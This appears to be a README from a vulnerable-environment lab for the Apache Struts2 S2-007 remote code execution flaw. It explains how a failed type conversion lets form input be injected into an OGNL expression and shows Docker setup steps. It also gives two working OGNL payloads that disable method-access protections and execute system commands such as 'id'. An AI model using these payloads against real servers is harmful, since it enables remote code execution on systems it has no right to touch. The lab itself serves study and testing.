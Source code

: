 # S2-007 Remote Code Execution Vulnerablity

[中文版本(Chinese version)](README.zh-cn.md)

Affected Version: 2.0.0 - 2.2.3

Details: http://struts.apache.org/docs/s2-007.html

## Reference

http://rickgray.me/2016/05/06/review-struts2-remote-command-execution-vulnerabilities.html

When `<ActionName> -validation.xml` configured validation rules. If the type validation conversion fails, the server will splice the user-submitted form value strings, then performing an OGNL expression parsing and returning. 

For example here is a `UserAction`:

```java
(...)
public class UserAction extends ActionSupport {
	private Integer age;
	private String name;
	private String email;

(...)
```

And `UserAction-validation.xml` configuration:

```xml
<?xml version="1.0" encoding="UTF-8" ?>
<!DOCTYPE validators PUBLIC
	"-//OpenSymphony Group//XWork Validator 1.0//EN"
	"http://www.opensymphony.com/xwork/xwork-validator-1.0.2.dtd">
<validators>
	<field name="age">
		<field-validator type="int">
			<param name="min">1</param>
			<param name="max">150</param>
		</field-validator>
	</field>
</validators>
```

When the user submits `age` as a `str` instead of an `int`, the server splices `"'" + value + "'"` with the code and then use the OGNL expression parse it. To make a successful expliot, we need find a form field configured with similar validation rules to make a conversion error. And then you can inject any OGNL expression code by the way just like SQL single quotes injected.

Payload which bypass the securely configured:

```
' + (#_memberAccess["allowStaticMethodAccess"]=true,#foo=new java.lang.Boolean("false") ,#context["xwork.MethodAccessor.denyMethodExecution"]=#foo,@java.lang.Runtime@getRuntime().exec("open /Applications/Calculator.app")) + '
```

## Setup

```
docker-compose build
docker-compose up -d
```


## Exploit

Here is the EXP that can execute arbitrary code:

```
' + (#_memberAccess["allowStaticMethodAccess"]=true,#foo=new java.lang.Boolean("false") ,#context["xwork.MethodAccessor.denyMethodExecution"]=#foo,@org.apache.commons.io.IOUtils@toString(@java.lang.Runtime@getRuntime().exec('id').getInputStream())) + '
```

Put EXP into the input box (age), then get the command execution result:

![](1.jpeg)
